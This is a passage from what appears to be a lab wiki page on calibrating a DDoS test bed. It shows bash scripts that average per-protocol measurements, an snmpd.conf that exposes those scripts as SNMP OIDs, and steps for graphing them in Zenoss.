AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== DNS Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-dns-AVG     
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd dns/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== ICMP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-icmp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

== SNMPD Link Data Points ==

- In order for all those collectors to be active in the SNMP query, we added them as execute upon query.

{{{
root@DDOS-Client:~/shockWave/Calibration# cat /etc/snmp/snmpd.conf
#  Listen for connections from the local system only
agentAddress  udp:127.0.0.1:161
#  Listen for connections on eth0 only
agentAddress  udp:192.168.0.131:161

## System location and contact information
syslocation NOOR
syscontact NOOR-SYSTEMS

rocommunity TeSt0FDd0S


### Calibration Extensions ###
##HTTP
extend .1.3.6.1.4.1.10001.1 http-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-1 
extend .1.3.6.1.4.1.10001.2 http-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-2 
extend .1.3.6.1.4.1.10001.3 http-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-3 
extend .1.3.6.1.4.1.10001.4 http-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-4 
extend .1.3.6.1.4.1.10001.5 http-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-5 
extend .1.3.6.1.4.1.10001.6 http-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-6 
extend .1.3.6.1.4.1.10001.7 http-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-7 
extend .1.3.6.1.4.1.10001.8 http-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-8 
extend .1.3.6.1.4.1.10001.9 http-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-9 
extend .1.3.6.1.4.1.10001.10 http-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-10 
extend .1.3.6.1.4.1.10001.11 http-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-AVG
##HTTPS
extend .1.3.6.1.4.1.10002.1 https-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-1 
extend .1.3.6.1.4.1.10002.2 https-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-2 
extend .1.3.6.1.4.1.10002.3 https-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-3 
extend .1.3.6.1.4.1.10002.4 https-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-4 
extend .1.3.6.1.4.1.10002.5 https-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-5 
extend .1.3.6.1.4.1.10002.6 https-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-6 
extend .1.3.6.1.4.1.10002.7 https-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-7 
extend .1.3.6.1.4.1.10002.8 https-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-8 
extend .1.3.6.1.4.1.10002.9 https-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-9 
extend .1.3.6.1.4.1.10002.10 https-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-10
extend .1.3.6.1.4.1.10002.11 https-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-AVG 
##FTP
extend .1.3.6.1.4.1.10003.1 ftp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-1 
extend .1.3.6.1.4.1.10003.2 ftp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-2 
extend .1.3.6.1.4.1.10003.3 ftp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-3 
extend .1.3.6.1.4.1.10003.4 ftp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-4 
extend .1.3.6.1.4.1.10003.5 ftp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-5 
extend .1.3.6.1.4.1.10003.6 ftp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-6 
extend .1.3.6.1.4.1.10003.7 ftp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-7 
extend .1.3.6.1.4.1.10003.8 ftp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-8 
extend .1.3.6.1.4.1.10003.9 ftp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-9 
extend .1.3.6.1.4.1.10003.10 ftp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-10
extend .1.3.6.1.4.1.10003.11 ftp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-AVG
##SMTP
extend .1.3.6.1.4.1.10004.1 smtp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-1 
extend .1.3.6.1.4.1.10004.2 smtp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-2 
extend .1.3.6.1.4.1.10004.3 smtp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-3 
extend .1.3.6.1.4.1.10004.4 smtp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-4 
extend .1.3.6.1.4.1.10004.5 smtp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-5 
extend .1.3.6.1.4.1.10004.6 smtp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-6 
extend .1.3.6.1.4.1.10004.7 smtp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-7 
extend .1.3.6.1.4.1.10004.8 smtp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-8 
extend .1.3.6.1.4.1.10004.9 smtp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-9 
extend .1.3.6.1.4.1.10004.10 smtp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-10 
extend .1.3.6.1.4.1.10004.11 smtp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-AVG
##DNS
extend .1.3.6.1.4.1.10005.1 dns-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-1 
extend .1.3.6.1.4.1.10005.2 dns-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-2 
extend .1.3.6.1.4.1.10005.3 dns-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-3 
extend .1.3.6.1.4.1.10005.4 dns-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-4 
extend .1.3.6.1.4.1.10005.5 dns-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-5 
extend .1.3.6.1.4.1.10005.6 dns-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-6 
extend .1.3.6.1.4.1.10005.7 dns-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-7 
extend .1.3.6.1.4.1.10005.8 dns-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-8 
extend .1.3.6.1.4.1.10005.9 dns-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-9 
extend .1.3.6.1.4.1.10005.10 dns-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-10 
extend .1.3.6.1.4.1.10005.11 dns-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-AVG
##ICMP
extend .1.3.6.1.4.1.10006.1 icmp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-1 
extend .1.3.6.1.4.1.10006.2 icmp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-2 
extend .1.3.6.1.4.1.10006.3 icmp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-3 
extend .1.3.6.1.4.1.10006.4 icmp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-4 
extend .1.3.6.1.4.1.10006.5 icmp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-5 
extend .1.3.6.1.4.1.10006.6 icmp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-6 
extend .1.3.6.1.4.1.10006.7 icmp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-7 
extend .1.3.6.1.4.1.10006.8 icmp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-8 
extend .1.3.6.1.4.1.10006.9 icmp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-9 
extend .1.3.6.1.4.1.10006.10 icmp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-10 
extend .1.3.6.1.4.1.10006.11 icmp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-AVG
}}}

== Zenoss Link ==

- In order for our Monitoring System to Graph the Calibration Points, the following steps have been completed

=== Add Devices ===

- Both The Victim & the Client has been added to the monitoring System

{{attachment:zenoss1.jpg}}

=== Creating Data Points ===

- Manually Enter all '''''66 OIDS''''' so that Zenoss can execute the collector scripts.

{{attachment:zenoss2.jpg}}

=== Creating Graphs ===

- Create 6 graphs, one for each tested protocol.

- Each graph should contain 11 Data Points  (10 for clients and 1 for Avg of Avg DP)

{{attachment:zenoss3.jpg}}

=== Creating Report ===

- Create The Calibration Report using the following Graphs

{{attachment:zenoss4.jpg}}


=== Report Example ===

- The Calibration Report should look something like this in the end.






















{{attachment:zenoss-report.pdf}}






